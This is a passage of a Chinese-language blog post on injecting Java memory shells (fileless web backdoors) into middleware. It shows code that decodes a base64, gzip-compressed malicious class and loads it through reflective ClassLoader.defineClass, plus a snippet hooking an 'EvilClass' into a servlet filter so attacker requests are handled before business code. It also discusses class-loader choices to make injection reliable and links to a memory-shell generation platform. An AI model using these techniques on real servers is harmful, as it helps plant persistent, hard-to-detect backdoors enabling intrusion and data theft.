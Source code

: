 ```yaml
---
title: 任意类加载环境下注入内存马
tags: [MemShell]
categories: [Java]
index_img: https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/17wanxiaoCheckInSCF_index_img.jpg
date: "2025-05-28 20:30:00"
description: "精准与否，就是屠宰与手术的区别 —— 青钢影"
---
```


> 常见中间件框架内存马生成平台：[MemShellParty](https://github.com/ReaJason/MemShellParty)

## 前言

在 JVM 中，每个类都有它所属的类加载器，在 Java 内存马注入场景下，我们会制作一个恶意类通过 ClassLoader.defineClass 方法注入到 JVM 中，然后通过一些特定方法注册到 Web 组件上以供我们访问。以下是 defineClass 的具体代码：

```java
private Object getShell(Object context) throws Exception {
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
    if (classLoader == null) {
        classLoader = context.getClass().getClassLoader();
    }
    try {
        return classLoader.loadClass(getClassName()).newInstance();
    } catch (Exception e) {
        byte[] clazzByte = gzipDecompress(decodeBase64(getBase64String()));
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class<?> clazz = (Class<?>) defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);
        return clazz.newInstance();
    }
}
```

看起来非常的完善，兼容性很强的样子，先尝试获取上下文类加载器中注入，上下文类加载没有就注入到 context 的类加载器中。实际测试起来就会发现有些场景下 `context.getClass().getClassLoader()` 根本不行，而 `Thread.currentThread().getContextClassLoader()` 这种依赖请求线程，如果在非请求线程肯定是寄的，例如：[记某次实战 hessian 不出网反序列化利用](https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/) 作者为了成功打上内存马还特地找了一个有上下文类加载器的 gadget。

每个类都有我们 **想要它在** 或是 **它应该在** 的类加载器中，为了去除对 `Thread.currentThread().getContextClassLoader()` 的依赖，我一直在找寻恶意类该放置在哪个 ClassLoader 中（自我写全中间件自动化测试开始，我就察觉到了这个优化点，时不时看看但一直没找到）。

而导火索就是最近我在写 ASM 通用内存马 Agent，为了通用，我就需要将恶意类单独拆成一个类，而不是用 ASM 直接编织到指定的类上（因为用 ASM 写 Java Code 太复杂了）。最终我敲定的代码植入效果为如下：

```java
@Override
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain){
    if(new EvilClass().equals(new Object[]{request, response, chain})){
        return;
    }   
    // other business code
}
```
